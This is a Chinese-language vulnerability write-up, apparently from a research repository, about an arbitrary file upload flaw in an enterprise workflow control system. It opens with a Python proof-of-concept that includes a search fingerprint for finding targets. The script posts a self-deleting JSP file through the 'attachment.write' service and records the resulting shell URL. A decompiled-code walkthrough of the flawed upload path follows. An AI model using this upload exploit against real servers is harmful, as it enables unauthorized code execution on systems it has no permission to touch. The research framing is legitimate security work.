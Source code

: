 # 漏洞复现

```
# body="企业流程化管控系统" && body="密码(Password):"

import re
import requests
import urllib3
import multiprocessing

urllib3.disable_warnings()

proxies = {
    "http": "http://127.0.0.1:7890",
    "https": "http://127.0.0.1:7890"
}

data = '''<% out.println("CdaF3C8f77065666");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>'''


def poc(url):
    target = url + "/formservice?service=attachment.write&isattach=false&filename=acebe1BA7BC18dB4.jsp"
    try:
        r = requests.post(target, data=data, verify=False, proxies=proxies, allow_redirects=False)
        print(r.text)
        pattern = r'<root>(.*?)</root>'
        match = re.search(pattern, r.text)
        if match:
            filename = match.group(1)
            shell = url + f"/form/temp/{filename}"
            if requests.get(shell).status_code == 200:
                with open("result.txt", "a") as f:
                    f.write(shell + "\n")
                    f.close()
                print("shell地址：" + shell)
            else:
                pass
    except:
        pass


if __name__ == "__main__":
    poc("http://127.0.0.1:8081")
```

![image-20230820175259879](images/1.png)

![image-20230820175305253](images/2.png)

访问后删除

# 漏洞分析

定位到路由FormService

![image-20230821190925810](images/3.png)

这个方法首先会从Request对象中取出service参数赋值给var6，取出第一个值，然后根据这个值对相应类进行实例化，service可以通过Class.Method这种形式来指定调用对应service的对应方法，例如attachment.write

getservice方法通过var1也即是service传入的值从HashMap中获取一个Object，这个Object包含了class消息，对应的将要调用的方法，方法的长度，类名，方法名等信息，返回后通过var2[0].newInstance对相应类进行实例化

![image-20230821192130472](images/4.png)

然后对变量进行赋值

![image-20230821193427977](images/5.png)

这里因为是反编译的代码，调试过程看到的变量感觉有点问题，其实var8才是那个对应的attachment类，var9时长度，var10是attachment字符串，var11是write字符串，var12时attachment类实现的所有接口

![image-20230821193613324](images/6.png)

也就是IScurityService接口，遍历获取接口，当实现了IScurityService接口的时候可以进入if方法，通过反射调用attachment的isAccessible方法判断write方法能否被访问

![image-20230821193928656](images/7.png)

只要不为空，并且不包含delete子串即可，接下来当在207行中如果获取到了isAccessible方法，不为空则跳出循环

![image-20230821194609224](images/8.png)

接下来判断请求到方法是否为GET，并且调用的方法长度是否为0 ，着var9不是attachment，而是write的长度5，当为POST的时候进入else分支

![image-20230821195329464](images/9.png)

没有传入content，也不是文件上传的请求的话，就进入else，var49的定义在service最开头

![image-20230821195356678](images/10.png)

没有传入inflate的时候为flase，在else if中的判断也不满足，因为write的长度为5

在后面通过长度判断进入到对应的if

![image-20230821195536346](images/11.png)

获取POST的原始数据流赋值给var60，后面还会判断是否实现了AbstractArteryService也会有一系列流程

![image-20230821223122858](images/12.png)

当不满足的话，就会进入else分支，因为var9代表调用方法的长度不为0 ，所以创建一个Object类，里面是request，response对象，以及POST获取到的原始数据流

![image-20230821223420966](images/13.png)

然后通过反射，调用对应的Method，因为传入的service是attachment.write，所以这里是调用的attachment的write方法，传入了过程构造的Object对象

![image-20230821223801476](images/14.png)

这个方法首先获取了两个参数，filename和isattach，isattach默认为true，可以自己控制进入不同的分支，在else分支中

![image-20230821224006721](images/15.png)

存在文件写入的相关操作，获取了rootpath，因为isattach此时为false，所以rootpath其实是在/form目录，接下来通过一系列拼接操作生成新的attachFilename，然后将文件写入/form/temp，内容是传入的is这个InputStream，即POST的原始数据流

![image-20230821224548149](images/16.png)

然后返回写入的文件名，然后在service方法的最后会通过response对象输出一个xml信息到页面上

![image-20230821224926474](images/17.png)

输出类似如下信息

![image-20230821225237944](images/18.png)